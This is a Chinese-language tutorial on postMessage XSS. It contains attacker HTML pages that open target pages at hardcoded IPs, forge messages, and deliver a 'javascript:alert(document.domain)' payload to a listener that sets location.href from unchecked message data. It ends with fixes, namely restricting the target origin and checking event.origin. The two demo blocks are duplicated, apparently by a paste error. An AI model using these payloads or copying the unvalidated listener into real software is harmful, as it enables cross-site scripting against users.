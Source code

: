 #  PostmessageXSS 漏洞

> ```
> Window.postmessage()方法可以安全地实现Window对象之间的跨源通信;例如，在页面和它派生的弹出窗口之间，或者在页面和其内嵌的iframe之间。
> ```

https://www.cnblogs.com/piaomiaohongchen/p/14727871.html

## 漏洞利用方式

demo1 代码

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
function openChild() {
    child = window.open('demo2.html', 'popup', 'height=300px, width=500px');
}
function sendMessage(){
    //发送的数据内容
    let msg={pName : "jack", pAge: "12"};
    //发送消息数据数据到任意目标源, *指的是任意anyone
    child.postMessage(msg,'*');
}
</script>
</head>
<body>
    <form>
        <fieldset>
            <input type='button' id='btnopen' value='Open child' onclick='openChild();' />
            <input type='button' id='btnSendMsg' value='Send Message' onclick='sendMessage();' />
        </fieldset>
    </form>
</body>
</html>
```

demo2 代码  

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
function openChild() {
    child = window.open('demo2.html', 'popup', 'height=300px, width=500px');
}
function sendMessage(){
    //发送的数据内容
    let msg={pName : "jack", pAge: "12"};
    //发送消息数据数据到任意目标源, *指的是任意anyone
    child.postMessage(msg,'*');
}
</script>
</head>
<body>
    <form>
        <fieldset>
            <input type='button' id='btnopen' value='Open child' onclick='openChild();' />
            <input type='button' id='btnSendMsg' value='Send Message' onclick='sendMessage();' />
        </fieldset>
    </form>
</body>
</html>
```



### 数据伪造

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
childwin = window.open('http://119.45.227.86/postmessage/demo2.html');

function sendMessage(){
    let msg={pName : "attacker", pAge: "16"};
    childwin.postMessage(msg,'*')
}

(function(){setTimeout("sendMessage()",1000);}()); 
</script>
</head>
</html>
```

> demo 1中存在以下代码，可以利用postMessage 传递信息。
>
> ```
> function sendMessage(){
>     //发送的数据内容
>     let msg={pName : "jack", pAge: "12"};
>     //发送消息数据数据到任意目标源, *指的是任意anyone
>     child.postMessage(msg,'*');
> }
> ```
>
> demo 2中存在以下代码，可以接收 postMessage传递过来的信息
>
> ```
> <script>
>         //添加事件监控消息
>     window.addEventListener("message", (event)=>{
>         let txt=document.getElementById("msg");
>         //接收传输过来的变量数据
>         txt.value=`Name is ${event.data.pName} Age is  ${event.data.pAge}` ;
> 
>     });
>     </script>
> ```
>
> 所以demo1 可以调用 PostMessage 接口传递信息，进而修改demo2显示的内容。
>
> 这里要注意两点：
>
> - postMessage 强调的是同一浏览器中页面之间的通讯(通过参数传递)，并不能修改服务器中的内容
> - 漏洞利用首先要打开2个页面(必须要有一个是漏洞网站的)，另外一个可以诱骗受害者点击的

> 利用步骤：
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>  <meta charset="utf-8" />
> <script>
> childwin = window.open('http://119.45.227.86/postmessage/demo2.html');
> 
> function sendMessage(){
>     let msg={pName : "attacker", pAge: "16"};
>     childwin.postMessage(msg,'*')
> }
> 
> (function(){setTimeout("sendMessage()",1000);}()); 
> </script>
> </head>
> </html>
> ```
>
> 执行分2步，首先打开一个子页面（demo2.html），接下来使用postMessage 传递参数，demo2.html中
>
> let txt=document.getElementById("msg"); 会接收我们从attacker.html传递的信息。
>
> (此处实际上是会被浏览器所拦截的(URL跳转)，需要浏览器选择不拦截)

### XSS漏洞

> ​		从数据伪造中可以看到，如果有 window.addEventListener("message", (event)=>这类接收postMessage传递参数的函数，那么就可以构造HTML文件，(此HTML功能第一步是打开可网站可传参的界面，第二步是向其传递参数(js层面))。
>
> 如果addEventListener 接收的**参数**会被一些危险函数(如下文的location.href)执行，是不是就有可能构造出一个反射型XSS呢？
>
> 服务器放入xss.html开始测试
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>     <meta charset="utf-8" />
>     <script>
>     window.addEventListener("message", (event)=>{
>         location.href=`${event.data.url}`;
>     });
>     </script>
> </head>
> </html>
> 
> 
> ```
>
> 
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>  <meta charset="utf-8" />
> <script>
> childwin = window.open('http://119.23.189.100/xss.html');
> 
> function sendMessage(){
>     let msg={url:"javascript:alert(document.domain)"};
>     childwin.postMessage(msg,'*')
> }
> 
> (function(){setTimeout("sendMessage()",1000);}()); 
> </script>
> </head>
> </html>
> ```
>
> ![img](弹窗.png)
>
> 关闭拦截后，刷新，首先是URL跳转，其次是弹出xss界面。

## 问题一:代码为什么会被执行

> 白帽子利用postMessage传参，通过层层调用链传递到 r.href参数s(通过URL重定向到白帽子的xss网站(x0.nz/q7pm#)),最后进行了弹窗。

## 问题二：是所有Postmessage 接口都会产生此类漏洞么，产生漏洞的条件

> 并不是所有PostMessage接口都存在此漏洞，攻击者要查看前端js代码，看一些特定参数是否可以控制（比如说location.href的参数），然后精心构造Payload。

## 问题三：修复方案

　**1.限制发送目标，禁止使用\***

　　**2.限制接收数据event.origin，使用指定信任域**
